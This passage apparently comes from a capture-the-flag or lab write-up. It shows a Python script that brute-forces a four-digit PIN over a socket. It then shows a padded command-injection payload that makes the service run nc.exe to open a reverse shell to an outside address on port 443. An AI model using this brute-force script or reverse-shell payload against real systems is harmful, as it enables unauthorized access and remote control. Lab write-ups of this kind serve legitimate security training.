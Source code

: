 ```
    for pin in tqdm(range(10000), desc="Brute-forcing PIN", unit="pin"):
        pin_str = f"{pin:04}"  # Format the PIN as a 4-digit string

        # Create a socket connection for each attempt
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            try:
                s.connect((host, port))
                s.recv(1024)  # Receive the initial banner or prompt again (ignored)
                s.sendall((pin_str + "\n").encode())  # Send the PIN
                response = s.recv(1024).decode()  # Receive the response

                # Check if the response indicates a successful login
                if "Access denied" not in response:
                    print(f"[!] Access granted with PIN: {pin_str}")
                    break
            except Exception as e:
                continue

if __name__ == "__main__":
    host = "127.0.0.1"
    port = 910
    brute_force_pin(host, port)
```
Save it and execute it

```
python3 brute.py
```
![[Pasted image 20240703171349.png]]
Found the valid cred is **0021**

I tested the service by sending 1000 bitcoins
![[Pasted image 20240703172303.png]]

Now instead numerical values, will send some strings
![[Pasted image 20240703172402.png]]
Great, it is just executing the string, will use this to  get a shell as admin

I already transferred the nc.exe to the target and it is in C:\\users\\public directory
![[Pasted image 20240703172548.png]]

Will use this to get a shell as admin, I have tried this straight command, it is taking the string after 32 bit.
```
C:\\users\\public\\nc.exe -e cmd.exe 10.10.14.3 443
```
![[Pasted image 20240703172706.png]]
We can see that till **C:\\users\\public\\nc.exe -e cmd** is 32 bit including spaces, so will fill first 32 bit with random string and try it again.

Will first first 32 bit in pwn
```
pwnpwnpwnpwnpwnpwnpwnpwnpwnpwnpwC:\\users\\public\\nc.exe -e cmd.exe 10.10.14.3 443
```
![[Pasted image 20240703173308.png]]
This worked as expected
